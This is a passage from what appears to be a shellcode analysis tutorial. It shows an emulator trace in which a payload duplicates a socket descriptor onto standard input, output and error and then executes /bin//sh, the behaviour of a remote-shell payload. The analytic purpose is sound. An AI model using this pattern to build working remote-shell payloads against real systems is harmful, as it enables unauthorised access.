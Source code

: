 ```cpp
     int newfd = 9;
) =  9;
int dup2 (
     int oldfd = 19;
     int newfd = 8;
) =  8;
int dup2 (
     int oldfd = 19;
     int newfd = 7;
) =  7;
int dup2 (
     int oldfd = 19;
     int newfd = 6;
) =  6;
int dup2 (
     int oldfd = 19;
     int newfd = 5;
) =  5;
int dup2 (
     int oldfd = 19;
     int newfd = 4;
) =  4;
int dup2 (
     int oldfd = 19;
     int newfd = 3;
) =  3;
int dup2 (
     int oldfd = 19;
     int newfd = 2;
) =  2;
int dup2 (
     int oldfd = 19;
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 19;
     int newfd = 0;
) =  0;
int execve (
     const char * dateiname = 0x00416fb6 => 
           = "/bin//sh";
     const char * argv[] = [
           = 0xffffffff => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;
```

Finally the PNG picture is created using:
